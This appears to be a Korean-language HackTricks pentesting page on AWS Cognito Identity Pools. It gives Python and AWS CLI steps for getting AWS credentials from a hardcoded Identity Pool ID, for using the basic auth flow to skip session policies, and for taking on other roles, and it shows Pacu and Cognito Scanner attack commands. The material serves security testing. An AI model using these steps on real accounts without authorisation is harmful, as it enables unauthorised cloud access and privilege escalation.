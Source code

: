 # Cognito Identity Pools

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

Identity pools는 사용자가 **임시 자격 증명**을 획득할 수 있도록 하여 중요한 역할을 합니다. 이러한 자격 증명은 Amazon S3 및 DynamoDB를 포함한 다양한 AWS 서비스에 접근하는 데 필수적입니다. Identity pools의 주목할 만한 기능은 익명 게스트 사용자와 사용자 인증을 위한 다양한 신원 제공자를 지원한다는 것입니다. 지원되는 신원 제공자는 다음과 같습니다:

- Amazon Cognito 사용자 풀
- Facebook, Google, Amazon으로 로그인, Apple로 로그인과 같은 소셜 로그인 옵션
- OpenID Connect (OIDC) 준수 제공자
- SAML (Security Assertion Markup Language) 신원 제공자
- 개발자 인증 신원
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

Identity Pool 세션을 생성하려면 먼저 **Identity ID를 생성해야** 합니다. 이 Identity ID는 **해당 사용자의 세션 식별자**입니다. 이러한 식별자는 최대 20개의 데이터 세트를 가질 수 있으며, 최대 1MB의 키-값 쌍을 저장할 수 있습니다.

이는 **사용자의 정보를 유지하는 데 유용합니다** (항상 동일한 Identity ID를 사용하는 사용자).

게다가, 서비스 **cognito-sync**는 **이 정보를 관리하고 동기화할 수 있는 서비스**입니다 (데이터 세트에서, 스트림 및 SNS 메시지로 정보를 전송하는 등).

### Tools for pentesting

- [Pacu](https://github.com/RhinoSecurityLabs/pacu), AWS 취약점 탐지 프레임워크는 이제 "cognito\_\_enum" 및 "cognito\_\_attack" 모듈을 포함하여 계정의 모든 Cognito 자산을 자동으로 열거하고 약한 구성, 접근 제어에 사용되는 사용자 속성 등을 플래그하며, 사용자 생성(여기에는 MFA 지원 포함) 및 수정 가능한 사용자 정의 속성, 사용 가능한 Identity Pool 자격 증명, ID 토큰에서 가정 가능한 역할 등을 기반으로 한 권한 상승을 자동화합니다.

모듈 기능에 대한 설명은 [블로그 게시물](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2) 2부를 참조하십시오. 설치 지침은 주요 [Pacu](https://github.com/RhinoSecurityLabs/pacu) 페이지를 참조하십시오.

#### Usage

주어진 Identity Pool 및 사용자 풀 클라이언트에 대해 사용자 생성 및 모든 권한 상승 벡터를 시도하는 샘플 cognito\_\_attack 사용법:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
샘플 cognito\_\_enum 사용법으로 현재 AWS 계정에서 볼 수 있는 모든 사용자 풀, 사용자 풀 클라이언트, 아이덴티티 풀, 사용자 등을 수집합니다:
```bash
Pacu (new:test) > run cognito__enum
```
- [Cognito Scanner](https://github.com/padok-team/cognito-scanner)는 원치 않는 계정 생성 및 아이덴티티 풀 상승을 포함하여 Cognito에 대한 다양한 공격을 구현하는 파이썬 CLI 도구입니다.

#### 설치
```bash
$ pip install cognito-scanner
```
#### 사용법
```bash
$ cognito-scanner --help
```
For more information check https://github.com/padok-team/cognito-scanner

## Accessing IAM Roles

### Unauthenticated

공격자가 Cognito 앱에서 인증되지 않은 사용자로 **AWS 자격 증명**을 얻기 위해 알아야 할 유일한 것은 **Identity Pool ID**이며, 이 **ID는 웹/모바일** **애플리케이션**에 하드코딩되어 있어야 사용될 수 있습니다. ID는 다음과 같이 보입니다: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (무작위 대입 공격이 불가능합니다).

> [!TIP]
> 기본적으로 **IAM Cognito 인증되지 않은 역할은** `Cognito_<Identity Pool name>Unauth_Role`로 호출됩니다.

하드코딩된 Identity Pools ID를 찾고 인증되지 않은 사용자를 허용하는 경우, 다음을 사용하여 AWS 자격 증명을 얻을 수 있습니다:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
또는 다음 **aws cli 명령어**를 사용할 수 있습니다:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
> [!WARNING]
> 기본적으로 인증되지 않은 cognito **사용자는 정책을 통해 할당되었더라도 권한을 가질 수 없습니다**. 다음 섹션을 확인하세요.

### 향상된 인증 흐름 vs 기본 인증 흐름

이전 섹션은 **기본 향상된 인증 흐름**을 따랐습니다. 이 흐름은 생성된 IAM 역할 세션에 **제한적인** [**세션 정책**](../../aws-basic-information/#session-policies)을 설정합니다. 이 정책은 세션이 [**이 목록의 서비스만 사용하도록 허용합니다**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (역할이 다른 서비스에 접근할 수 있었더라도).

그러나 **Identity pool에 "기본 (클래식) 흐름"이 활성화되어 있으면**, 사용자는 해당 흐름을 사용하여 **제한적인 세션 정책이 없는** 세션을 얻을 수 있습니다.
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
> [!WARNING]
> 이 **오류**가 발생하는 경우, **기본 흐름이 활성화되지 않았기 때문입니다 (기본값)**

> `An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`

IAM 자격 증명이 있는 경우 [어떤 접근 권한이 있는지 확인하고](../../#whoami) [권한 상승을 시도하세요](../../aws-privilege-escalation/).

### 인증된 사용자

> [!NOTE]
> **인증된 사용자**는 아마도 **다른 권한**이 부여될 것이므로, **앱 내에서 가입할 수 있다면**, 그렇게 시도하여 새로운 자격 증명을 얻으세요.

**인증된 사용자**가 **Identity Pool**에 접근할 수 있는 **역할**이 있을 수도 있습니다.

이를 위해 **아이덴티티 제공자**에 대한 접근 권한이 필요할 수 있습니다. 만약 그것이 **Cognito 사용자 풀**이라면, 기본 동작을 악용하여 **직접 새 사용자를 생성할 수 있을지도 모릅니다**.

> [!TIP]
> **IAM Cognito 인증 역할은 기본적으로** `Cognito_<Identity Pool name>Auth_Role`로 호출됩니다.

어쨌든, **다음 예제**는 Identity Pool에 접근하기 위해 사용되는 **Cognito 사용자 풀**에 이미 로그인했다고 가정합니다 (다른 유형의 아이덴티티 제공자도 구성될 수 있다는 점을 잊지 마세요).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 이전 명령 응답에서 identity_id를 가져옵니다
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# IdToken에서 사용자가 User Pool 그룹으로 접근할 수 있는 역할을 찾을 수 있습니다
# --custom-role-arn을 사용하여 특정 역할에 대한 자격 증명을 가져옵니다
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

> [!WARNING]
> 사용자가 로그인하는 아이덴티티 제공자에 따라 **다른 IAM 역할을 구성할 수 있습니다** 또는 **사용자**에 따라 (클레임을 사용하여) 다를 수 있습니다. 따라서 동일한 또는 다른 제공자를 통해 다양한 사용자에 대한 접근 권한이 있는 경우, **모든 사용자의 IAM 역할에 로그인하고 접근하는 것이 가치가 있을 수 있습니다**.

{{#include ../../../../banners/hacktricks-training.md}}
